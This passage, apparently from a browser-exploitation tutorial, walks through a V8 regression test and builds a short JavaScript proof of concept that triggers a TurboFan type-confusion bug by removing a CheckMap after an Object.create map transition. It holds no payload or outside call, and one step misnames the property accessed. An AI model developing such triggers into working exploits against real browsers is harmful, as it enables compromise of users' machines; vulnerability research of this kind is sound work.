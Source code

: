 Let's take a look at this test case and see what we can work with.

```js
// Flags: --allow-natives-syntax

(function() {
  function f(o) {
    o.x;
    Object.create(o);
    return o.y.a;
  }

  f({ x : 0, y : { a : 1 } });
  f({ x : 0, y : { a : 2 } });
  %OptimizeFunctionOnNextCall(f);
  assertEquals(3, f({ x : 0, y : { a : 3 } }));
})();
```

From the top of the code, we can see that a new function `f` is created which accepts an object `o`. When this function is called, it performs the following actions on the passed-in object:

1. It access property `a` of object `o`, which should force a `CheckMap` operation.
2. Calls `Object.create` on object `o`, which should force a Map transition.
3. Accesses an out-of-bound property of `a` in the passed-in object `y`, which should trigger the type-confusion.

We can see that this function is called twice with simple objects and properties, and then `%OptimizeFunctionOnNextCall` is called, which forces V8 to pass the function to TurboFan for optimization. This prevents us from needing to run a loop to make the function "hot". The function is then called for a third time, which should trigger our bug.

As you can see, the [assert](https://developer.mozilla.org/en-US/docs/Web/API/console/assert) method is called to check that the value of `3` is returned. If it is not, it's possible that the bug is still present.

This is helpful for us because we now have a working proof of concept that we can use. Although, I'm not sure why they are using a object within the properties backing store instead of a value. Guess we'll figure that out later.

With this information, let's build our own proof of concept script by using the information we have gathered. Afterwards, we'll perform a few checks to make sure that we indeed have a working type confusion, and we'll also use Turbolizer to validate that the `CheckMap` operation is indeed removed via redundancy elimination.

Our proof of concept should look like so:

```js
function vuln(obj) {
    // Access Property a of obj, forcing a CheckMap operation
    obj.a;

    // Force a Map Transition via our side-effect
    Object.create(obj)

    // Trigger our type-confusion by accessing an out-of-bound property
    return obj.b;
}

vuln({a:42, b:43}); // Warm-up code
vuln({a:42, b:43});
%OptimizeFunctionOnNextCall(vuln); // JIT Compile vuln
vuln({a:42, b:43}); // Trigger type-confusion - should not return 43!
```
